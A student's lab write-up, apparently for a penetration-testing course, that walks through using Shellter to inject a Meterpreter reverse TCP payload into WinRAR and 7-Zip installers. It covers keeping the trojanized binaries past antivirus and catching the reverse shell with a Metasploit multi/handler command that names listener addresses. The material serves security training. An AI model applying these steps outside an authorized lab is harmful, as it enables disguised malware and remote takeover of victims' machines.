









### 17.3.3.4 Exercises
#### 1. Inject a meterpreter reverse shell payload in the WinRAR executable.

- Downloaded WinRar 32-bit executable, installed Shellter & ran it in Automatic Mode
  
  - Chose Options
    - Stealth Mode: On
    - Listed Payload: [1] Meterpreter_Reverse_TCP
    - LHOST: 192.168.119.216
    - LPORT: 8000
  - Successfully injected payload
    

#### 2. Transfer the binary to your Windows client and ensure that it is not being detected by the antivirus.

- Transferred via netcat
  
- The AV results wouldn't stay up when I tried to scan the file through the context menu, so here's a scan of the desktop folder:
  

#### 3. Run the WinRAR installer and migrate your meterpreter shell to prevent a disconnect.

- Meterpreter handler setup:
  
```bash
  sfconsole -x "use exploit/multi/handler; set RHOST 192.168.216.10; set PAYLOAD w
  indows/meterpreter/reverse_tcp; set LHOST 192.168.119.216; set LPORT 8000"
```

  

- Running WinRAR
  I had to give it a few seconds on the initial screen or the meterpreter session didn't have time to migrate.

  

- Look at this beautiful prompt:
  

#### 4. Attempt to find different executables and inject malicious code into them using Shellter.

- Chose 7zip (https://www.7-zip.org/a/7z1900.exe)

- Used same parameters as with WinRAR above & the payload was injected successfully:
  

- Transferred to Windows

  
- Setup meterpreter handler

  ```bash
  sfconsole -x "use exploit/multi/handler; set RHOST 192.168.216.10; set PAYLOAD w
  indows/meterpreter/reverse_tcp; set LHOST 192.168.119.216; set LPORT 8000"
  ```
  
  
  
- Ran it to get a tasty Meterpreter shell

  Note: Stealth mode didn't seem to work, as the 7zip process aborted shortly after the shell kicked off.
  
  
  